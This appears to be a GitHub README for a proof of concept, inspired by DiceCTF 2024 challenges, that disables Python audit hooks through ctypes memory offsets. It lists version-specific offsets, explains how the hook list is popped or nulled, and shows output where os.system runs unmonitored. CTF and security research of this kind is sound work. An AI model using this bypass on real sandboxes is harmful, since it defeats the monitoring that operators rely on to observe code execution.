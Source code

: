 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
# offset for audit hook set by python and C
if sys.version_info[:2] == (3, 12):
    PTR_OFFSET = [0x41448, -0x11df0]
else:
    PTR_OFFSET = [0xe00, -0xe388]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
[UAF POC](./UAF-issue91153.md)

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
